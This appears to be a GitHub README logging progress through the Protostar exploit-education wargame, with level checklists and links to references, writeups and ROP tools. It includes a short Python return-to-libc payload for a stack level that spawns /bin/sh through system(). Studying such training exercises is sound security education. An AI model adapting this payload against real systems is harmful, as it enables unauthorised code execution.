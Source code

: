 # Protostar

## Stack
- [x] stack0
- [x] stack1
- [x] stack2
- [x] stack3
- [x] stack4
- [x] stack5
- [x] stack6
- [x] stack7
```
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
return_op = struct.pack("I",0x08048544)
call_system = struct.pack("I",0xb7ecffb0)
after_system_execution = struct.pack("I",0xb7ec60c0)
bin_sh_path = struct.pack("I",0xb7fb63bf)
print padding + return_op + call_system + after_system_execution + bin_sh_path
```

## Format String
- [x] format0
- [x] format1
- [ ] format2
- [ ] format3
- [ ] format4

## Heap
- [ ] heap0
- [ ] heap1
- [ ] heap2
- [ ] heap3

## Network

- [ ] net0
- [ ] net1
- [ ] net2

## Final
- [ ] final0
- [ ] final1
- [ ] final2

# Reference
- https://old.liveoverflow.com/binary_hacking/protostar/index.html
- https://exploit.education/protostar/
- https://ctf101.org/binary-exploitation/overview/

# Writeup & Video
- https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
- https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
- https://failingsilently.wordpress.com/exploit-development/
- https://www.ayrx.me/protostar-walkthrough-format ( format string writeup )

# Tools
- https://github.com/inaz2/roputils
- https://github.com/JonathanSalwan/ROPgadget
